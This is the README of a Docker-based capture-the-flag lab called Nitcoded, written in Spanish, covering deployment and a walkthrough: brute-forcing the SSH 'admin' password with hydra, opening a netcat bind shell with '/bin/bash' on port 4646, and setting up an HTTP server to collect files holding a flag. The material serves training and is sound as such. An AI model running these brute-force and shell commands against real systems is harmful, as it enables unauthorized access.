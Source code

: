# Nitcoded

- [1. Descripción](#1.-descripción)
- [2. Instalación y despliegue](#2.-instalación-y-despliegue)
- [2.1. Despliegue manual](#2.1.-despliegue-manual)
- [2.2. Despliegue atomático](#2.2.-despliegue-atomático)
- [3. Descripción del laboratorio](#3.-descripción-del-laboratorio)
- [4. Resolución del laboratorio](#4.-resolución-del-laboratorio)
- [4.1. Cracking de credenciales](#4.1.-cracking-de-credenciales)
- [4.2. Sesión interactiva](#4.2.-sesión-interactiva)
- [4.3. Configuración del servidor HTTP](#4.3.-configuración-del-servidor-http)
- [4.4. Recepción de archivos](#4.4.-recepción-de-archivos)
- [4.5. Obtención de la flag](#4.5.-obtención-de-la-flag)

## 1. Descripción

Este laboratorio es una simulación de un entorno cliente-servidor, en el cual se profundizará en la configuración de servidores HTTP y automatización de tareas. Utiliza Docker para simular dos servidores, cada uno con configuraciones específicas destinadas a desafiar al usuario a utilizar una variedad de herramientas y técnicas de administración.

## 2. Instalación y despliegue

Antes de iniciar el laboratorio, asegúrate de tener Docker instalado en tu sistema. Si no tienes Docker, puedes instalar siguiendo las instrucciones en el sitio oficial de Docker para [Windows](https://docs.docker.com/docker-for-windows/install/), [Mac](https://docs.docker.com/docker-for-mac/install/) o [Linux](https://docs.docker.com/engine/install/).
Para el despliegue, tanto manual como automático, será neceasrio crear una red en Docker de tipo _bridge_:

```bash
docker network create nitcoded
```

## 2.1. Despliegue manual

Para desplegar manualmente el laboratorio, deberás clonar este repositorio y ejecutar los siguientes comandos Docker para su lanzamiento:

```bash
git clone https://github.com/kradbyte/elementals-labs.git
docker build -f kradbyte/nitcoded:server -f Dockerfile.server elementals-labs/7-Nitcoded 
docker build -f kradbyte/nitcoded:client -f Dockerfile.client elementals-labs/7-Nitcoded
docker run -d --name nitcoded-server --network nitcoded -p [ServerPort]:22 -p [ServerPort]:4646 kradbyte/nitcoded:server
docker run -d --name nitcoded-client --network nitcoded kradbyte/nitcoded:client
```

No olvides cambiar los `ServerPort` por los puertos que se expondrán para los servicios SSH y el puerto libre para otro servicio detallado más adelante.

## 2.2. Despliegue atomático

Para desplegar el laboratorio atomáticamente bastará con ejecutar los siguientes comandos:

```bash
docker run -d --name nitcoded-server --network nitcoded -p [ServerPort]:22 -p [ServerPort]:4646 kradbyte/nitcoded:server
docker run -d --name nitcoded-client --network nitcoded kradbyte/nitcoded:client
```

No olvides cambiar los `ServerPort` por los puertos que se expondrán para los servicios SSH y el puerto libre para otro servicio detallado más adelante.

> **Nota**: No se recomienda cambiar el nombre de los contenedores, ya que hay configuraciones internas que funcionan con la resolución de los DNS de los contenedores, por lo que solo es posible cambiar el nombre de los contenedores si cambiamos las configuraciones también.

## 3. Descripción del laboratorio

**Description**
Pato va a enviar cerca de 100 archivos al servidor por HTTP, así que debes ingresar al servidor con el rol administrador y preparar todo para que Pato pueda enviar sus archivos.

**Target**
Configura un servidor HTTP.

**Steps**
- Ingresa al servidor
- Configura el servidor HTTP.
- Espera y gestiona los archivos recibidos.
- Descifra la flag en los archivos recibidos.

**Grants**
- La flag se encuentra segmentada en todos los archivos que envía Pato, deberás buscar la diferencia entre todos para encontrar la flag.
- Para el servidor HTTP no es necesario colocarle contraseña, dado que Pato hace un curl sin contraseña, que si bien no es seguro es más práctico por ser una red interna.
- El puerto 4646 está expuesto para cualquier uso.

## 4. Resolución del laboratorio

### 4.1. Cracking de credenciales

Primero deberemos crackear las credenciales de la SSH para acceder al servidor. La descripción nos proporciona información acerca de que nuestro rol es de administrador, por lo que podremos ingresar como _admin_, por lo que ahora deberemos buscar la contraseña con herramientas como _hydra_. Como diccionario podremos utilizar algún diccionario de [SecList](https://github.com/danielmiessler/SecLists/blob/master/Passwords/500-worst-passwords.txt).

```bash
hydra -L admmin -p /ruta/a/tu/diccionario.txt ssh://ServerIP:ServerPort
```

No olvides cambiar `ServerIP` y `ServerPort` por la IP del servidor y el puerto por el que corre la SSH (en caso de haber configurado SSH en un puerto distinto al 22).

### 4.2. Sesión interactiva

Cuando hayamos descubierto la contraseña e intentemos hacer la conexión al servidor por SSH, la sesión se cerrará y nos impedirá obtener la consola interactiva, sin embargo, podremos ejecutar comandos por SSH. Para poder obtener la consola interactiva podremos configurar una _bind shell_ instalando Netcat primero:

```bash
ssh admin@ServerIP sudo apt-get install -y netcat-traditional
```

No olvides reemplazar `ServerIP` por la IP del servidor.
Una vez hayamos instalado NetCat podremos ponernos en escucha por el puerto 4646 que estaba libre en el despliegue del contenedor:

```bash
ssh admin@ServerIP nc -lnvp 4646 -e /bin/bash
```

En nuestra máquina deberemos abrir otra terminal y conectarnos por Netcat:

```bash
nc ServerIP 4646
```

Otra forma en que podremos ganar la consola interactiva será ejecutando lo siguiente:

```bash
ssh admin@SererIP exec bash -i
```

### 4.3. Configuración del servidor HTTP

Para configurar el servidor HTTP podrías, incluso, levantarlo con Python:

```bash
python3 -m http.server
```

Sin embargo, nuestro servidor debe tener capacidades POST/PUT, dado que el cliente enviará archivos al servidor, por lo que podremos buscar alguna alternativa como un script en Python que acepte POST/PUT. Recuerda que HTTP se monta en el puerto 80.

### 4.4. Recepción de archivos

Cuando hayamos configurado el servidor correctamente, el cliente comenzará a enviar los archivos en lotes de 10 cada 3 minutos, por lo que podremos buscar una forma de gestionar estas recepciones, dado que para recibir todos los archivos tardará cerca de 30 minutos.
Se sugiere implementar un script en bash que guarde los arhivos en alguna ubicación y vaya renombrando los archivos recibidos, junto con una tarea cron para que el proceso se realice automáticamente.

> **Nota**: Si el cliente tienen algún error al enviar los archivos se reiniciará el índice de envío de archivos; es decir, si se enviaron los archivos 20-30 y paramos el servidor, el cliente intentará enviar todos los archivos nuevamente desde el primero. Podremos ver los logs de los envíos con el siguiente comando:

```bash
docker exec nitcoded-client cat /root/sender.log
```

### 4.5. Obtención de la flag

Una vez hayamos obtenido todos los archivos (90 en total) deberemos realizar la lectura de cada uno, ya que al descrifrarlos encontraremos un caracter diferente en cada archivo que deberás compilar para obtener una frase encriptada en base64 que contendrá la flag. Esto también se puede automatizar con un script.
